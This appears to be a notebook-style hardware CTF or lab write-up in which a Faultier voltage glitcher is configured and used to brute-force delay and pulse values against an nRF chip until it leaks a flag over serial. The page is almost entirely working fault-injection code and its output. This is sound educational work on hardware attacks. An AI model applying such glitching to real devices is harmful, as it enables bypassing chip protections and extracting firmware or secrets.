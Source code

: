 
```python
# Configure the glitcher
ft.configure_glitcher(
    # Every time we call the power_cycle function or the glitch function, it should switch MUX0 to GND and then back to +3.3v
    power_cycle_output = faultier.OUT_MUX0,
    power_cycle_length = 300000,  # 5 nanoseconds increments
    trigger_source = faultier.TRIGGER_IN_EXT0,
    trigger_type = faultier.TRIGGER_PULSE_POSITIVE,  # The GlitchTag creates a positive pulse on the trigger pin.
    glitch_output = faultier.OUT_CROWBAR
)
```


```python
# helper function
def glitch(d, p):
    # Flush serial data
    if ser.in_waiting:   
        ser.read(ser.in_waiting)
    ft.glitch(delay=d, pulse=p)
    data = ser.read(3)   # 3 bytes expected 0, R, X or N
    if b"X" in data:
        print(f"Success! Delay: {d} Pulse: {p}")
        print(ser.read(50))
```


```python
# Glitching brute-force
for d in range(200, 300):  #  range(0, 100000):
    for p in range(5, 10):  # range(0, 10):
        glitch(d, p)
```

    Success! Delay: 238 Pulse: 7
    b'RN'
    Success! Delay: 239 Pulse: 9
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 247 Pulse: 7
    b'T{glitching-th\x00RN'
    Success! Delay: 247 Pulse: 9
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 254 Pulse: 8
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 263 Pulse: 9
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 264 Pulse: 7
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 265 Pulse: 9
    b'glitching-the-nRF-is-easy}\x00RXHXT{glitching-the-nRF'
    Success! Delay: 268 Pulse: 6
    b'T{glitching-the-nRF-is-ea\x00RXHXT{glitching-the-nRF-'
    Success! Delay: 269 Pulse: 9
    b'glitching-the-nRF-is-easy}\x00R\x00RN'
    Success! Delay: 270 Pulse: 5
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 271 Pulse: 5
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 271 Pulse: 6
    b'HXT{glitching-the-nRF-is-easy}'
    Success! Delay: 273 Pulse: 5
    b'glitching-the-nRF-is-easy}\x00RXHXT{glitching-the-nRF'
    Success! Delay: 275 Pulse: 9
    b'HXT{glitching-the-nRF-is-easy}'